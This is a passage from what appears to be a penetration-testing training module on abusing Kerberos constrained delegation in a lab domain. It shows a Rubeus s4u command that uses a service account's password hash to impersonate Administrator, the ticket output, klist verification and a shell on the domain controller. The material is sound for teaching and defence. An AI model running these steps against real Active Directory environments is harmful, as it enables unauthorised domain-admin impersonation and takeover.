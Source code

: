 ![PassToHash](https://academy.hackthebox.com/storage/modules/176/A9/phash.png)

Then, we will use `Rubeus` to get a ticket for the `Administrator` account:

  Kerberos Constrained Delegation

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```

![Obtain ticket](https://academy.hackthebox.com/storage/modules/176/A9/getTicket.png)

To confirm that `Rubeus` injected the ticket in the current session, we can use the `klist` command:

  Kerberos Constrained Delegation

```powershell-session
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>